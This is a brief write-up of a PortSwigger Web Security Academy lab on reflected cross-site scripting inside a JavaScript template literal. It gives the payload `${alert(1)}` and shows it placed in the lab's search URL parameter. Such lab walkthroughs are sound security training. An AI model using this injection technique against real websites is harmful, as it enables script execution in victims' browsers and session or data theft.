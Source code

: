 # Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

### HINT: `${alert(1)}`

### step1

search test into search bar
url will be
`https://0a380086040a8bc0815c3e5900720072.web-security-academy.net/?search=test`
change test with ${alert(1)}
`https://0a380086040a8bc0815c3e5900720072.web-security-academy.net/?search=${alert(1)}`
